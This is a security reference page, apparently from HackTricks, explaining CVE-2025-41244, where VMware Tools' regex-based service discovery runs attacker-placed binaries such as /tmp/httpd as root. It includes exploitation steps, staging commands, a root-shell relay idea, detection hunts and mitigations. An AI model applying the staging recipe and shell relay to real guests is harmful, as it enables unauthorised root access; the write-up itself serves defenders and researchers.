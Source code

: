 # VMware Tools service discovery LPE (CWE-426) via regex-based binary discovery (CVE-2025-41244)

{{#include ../../banners/hacktricks-training.md}}

This technique abuses regex-driven service discovery pipelines that parse running process command lines to infer service versions and then execute a candidate binary with a "version" flag. When permissive patterns accept untrusted, attacker-controlled paths (e.g., /tmp/httpd), the privileged collector executes an arbitrary binary from an untrusted location, yielding local privilege escalation. NVISO documented this in VMware Tools/Aria Operations Service Discovery as CVE-2025-41244.

- Impact: Local privilege escalation to root (or to the privileged discovery account)
- Root cause: Untrusted Search Path (CWE-426) + permissive regex matching of process command lines
- Affected: open-vm-tools/VMware Tools on Linux (credential-less discovery), VMware Aria Operations SDMP (credential-based discovery via Tools/proxy)

## How VMware service discovery works (high level)

- Credential-based (legacy): Aria executes discovery scripts inside the guest via VMware Tools using configured privileged credentials.
- Credential-less (modern): Discovery logic runs within VMware Tools, already privileged in the guest.

Both modes ultimately run shell logic that scans processes with listening sockets, extracts a matching command path via a regex, and executes the first argv token with a version flag.

## Root cause and vulnerable pattern (open-vm-tools)

In open-vm-tools, the serviceDiscovery plugin script get-versions.sh matches candidate binaries using broad regular expressions and executes the first token without any trusted-path validation:

```bash
get_version() {
  PATTERN=$1
  VERSION_OPTION=$2
  for p in $space_separated_pids
  do
    COMMAND=$(get_command_line $p | grep -Eo "$PATTERN")
    [ ! -z "$COMMAND" ] && echo VERSIONSTART "$p" "$("${COMMAND%%[[:space:]]*}" $VERSION_OPTION 2>&1)" VERSIONEND
  done
}
```

It is invoked with permissive patterns containing \S (non-whitespace) that will happily match non-system paths in user-writable locations:

```bash
get_version "/\S+/(httpd-prefork|httpd|httpd2-prefork)($|\s)" -v
get_version "/usr/(bin|sbin)/apache\S*" -v
get_version "/\S+/mysqld($|\s)" -V
get_version "\.?/\S*nginx($|\s)" -v
get_version "/\S+/srm/bin/vmware-dr($|\s)" --version
get_version "/\S+/dataserver($|\s)" -v
```

- Extraction uses grep -Eo and takes the first token: ${COMMAND%%[[:space:]]*}
- No whitelist/allowlist of trusted system paths; any discovered listener with a matching name is executed with -v/--version

This creates an untrusted search path execution primitive: arbitrary binaries located in world-writable directories (e.g., /tmp/httpd) get executed by a privileged component.

## Exploitation (both credential-less and credential-based modes)

Preconditions
- You can run an unprivileged process that opens a listening socket on the guest.
- The discovery job is enabled and runs periodically (historically ~5 minutes).

Steps
1) Stage a binary in a path matching one of the permissive regexes, e.g. /tmp/httpd or ./nginx
2) Run it as a low-privileged user and ensure it opens any listening socket
3) Wait for the discovery cycle; the privileged collector will automatically execute: /tmp/httpd -v (or similar), running your program as root

Minimal demo (using NVISO’s approach)
```bash
# Build any small helper that:
#  - default mode: opens a dummy TCP listener
#  - when called with -v/--version: performs the privileged action (e.g., connect to an abstract UNIX socket and spawn /bin/sh -i)
# Example staging and trigger
cp your_helper /tmp/httpd
chmod +x /tmp/httpd
/tmp/httpd          # run as low-priv user and wait for the cycle
# After the next cycle, expect a root shell or your privileged action
```

Typical process lineage
- Credential-based: /usr/bin/vmtoolsd -> /bin/sh /tmp/VMware-SDMP-Scripts-.../script_...sh -> /tmp/httpd -v -> /bin/sh -i
- Credential-less: /bin/sh .../get-versions.sh -> /tmp/httpd -v -> /bin/sh -i

Artifacts (credential-based)
Recovered SDMP wrapper scripts under /tmp/VMware-SDMP-Scripts-{UUID}/ may show direct execution of the rogue path:
```bash
/tmp/httpd -v >"/tmp/VMware-SDMP-Scripts-{UUID}/script_-{ID}_0.stdout" 2>"/tmp/VMware-SDMP-Scripts-{UUID}/script_-{ID}_0.stderr"
```

## Generalizing the technique: regex-driven discovery abuse (portable pattern)

Many agents and monitoring suites implement version/service discovery by:
- Enumerating processes with listening sockets
- Grepping argv/command lines with permissive regexes (e.g., patterns containing \S)
- Executing the matched path with a benign flag like -v, --version, -V, -h

If the regex accepts untrusted paths and the path is executed from a privileged context, you get CWE-426 Untrusted Search Path execution.

Abuse recipe
- Name your binary like common daemons that the regex is likely to match: httpd, nginx, mysqld, dataserver
- Place it in a writable directory: /tmp/httpd, ./nginx
- Ensure it matches the regex and opens any port to be enumerated
- Wait for the scheduled collector; you get an automatic privileged invocation of <path> -v

Masquerading note: This aligns with MITRE ATT&CK T1036.005 (Match Legitimate Name or Location) to increase match probability and stealth.

Reusable privileged I/O relay trick
- Build your helper so that on privileged invocation (-v/--version) it connects to a known rendezvous (e.g., a Linux abstract UNIX socket like @cve) and bridges stdio to /bin/sh -i. This avoids on-disk artifacts and works across many environments where the same binary is re-invoked with a flag.

## Detection and DFIR guidance

Hunting queries
- Uncommon children of vmtoolsd or get-versions.sh such as /tmp/httpd, ./nginx, /tmp/mysqld
- Any execution of non-system absolute paths by discovery scripts (look for spaces in ${COMMAND%%...} expansions)
- ps -ef --forest to visualize ancestry trees: vmtoolsd -> get-versions.sh -> <non-system path>

On Aria SDMP (credential-based)
- Inspect /tmp/VMware-SDMP-Scripts-{UUID}/ for transient scripts and stdout/stderr artifacts showing execution of attacker paths

Policy/telemetry
- Alert when privileged collectors execute from non-system prefixes: ^/(tmp|home|var/tmp|dev/shm)/
- File integrity monitoring on get-versions.sh and VMware Tools plugins

## Mitigations

- Patch: Apply Broadcom/VMware updates for CVE-2025-41244 (Tools and Aria Operations SDMP)
- Disable or restrict credential-less discovery where feasible
- Validate trusted paths: restrict execution to allowlisted directories (/usr/sbin, /usr/bin, /sbin, /bin) and only exact known binaries
- Avoid permissive regexes with \S; prefer anchored, explicit absolute paths and exact command names
- Drop privileges for discovery helpers where possible; sandbox (seccomp/AppArmor) to reduce impact
- Monitor for and alert on vmtoolsd/get-versions.sh executing non-system paths

## Notes for defenders and implementers

Safer matching and execution pattern
```bash
# Bad: permissive regex and blind exec
COMMAND=$(get_command_line "$pid" | grep -Eo "/\\S+/nginx(\$|\\s)")
[ -n "$COMMAND" ] && "${COMMAND%%[[:space:]]*}" -v

# Good: strict allowlist + path checks
candidate=$(get_command_line "$pid" | awk '{print $1}')
case "$candidate" in
  /usr/sbin/nginx|/usr/sbin/httpd|/usr/sbin/apache2)
      "$candidate" -v 2>&1 ;;
  *)
      : # ignore non-allowlisted paths
      ;;
esac
```

## References

- [NVISO – You name it, VMware elevates it (CVE-2025-41244)](https://blog.nviso.eu/2025/09/29/you-name-it-vmware-elevates-it-cve-2025-41244/)
- [Broadcom advisory for CVE-2025-41244](https://support.broadcom.com/web/ecx/support-content-notification/-/external/content/SecurityAdvisories/0/36149)
- [open-vm-tools – serviceDiscovery/get-versions.sh (stable-13.0.0)](https://github.com/vmware/open-vm-tools/blob/stable-13.0.0/open-vm-tools/services/plugins/serviceDiscovery/get-versions.sh)
- [MITRE ATT&CK T1036.005 – Match Legitimate Name or Location](https://attack.mitre.org/techniques/T1036/005/)
- [CWE-426: Untrusted Search Path](https://cwe.mitre.org/data/definitions/426.html)

{{#include ../../banners/hacktricks-training.md}}